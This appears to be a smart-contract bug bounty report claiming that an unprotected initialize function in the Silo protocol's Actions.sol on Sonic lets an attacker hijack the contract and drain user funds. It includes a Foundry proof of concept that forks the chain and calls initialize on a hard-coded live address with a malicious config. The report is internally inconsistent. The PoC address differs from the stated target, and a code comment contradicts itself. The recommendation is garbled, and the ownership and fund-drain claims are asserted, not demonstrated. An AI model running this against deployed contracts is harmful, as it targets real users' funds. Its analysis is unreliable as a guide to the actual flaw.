 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 
_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53
Actions.sol uses as e.g middleware in silo protocol, meaning if a user calls deposit/withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as, calling accrueInterest, turn on/off reentrancy protection, calls hook receiver, gets shareToken and asset addresses, and also the contract interacts with vaults that change the storage, meaning if an attacker can get access or hijack the Actions.sol via calling initialize with malicious siloConfig, fake hook receiver and Change shareToken and asset addresses, all the protocol's transactions will be under the attacker's malicious actions, and could give the Attacker full control over the user's funds

```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```
- After deep reviews, i found out that the silo admins forgot to call initialize in Actions.sol contract, the contract is Unprotected everyone can call it and become the owner of it.


**Impact:**

- Attacker could hijack the Actions.sol contract via calling initialize function and change the siloConfig, hook receiver, shareToken and asset addresses all to the malicious ones.
- Users' funds will be under attacker's control
- And the attacker could drain the protocol's funds via contract without reentrancy protection
- Once the attacker became the owner of Actions.sol, the protocol admins can not return the contract back from attacer.

**Recommendation:**

Consider adding onlyOwner ko call the unitize function to prevent the attacker from hijacking it.

**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, fake shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

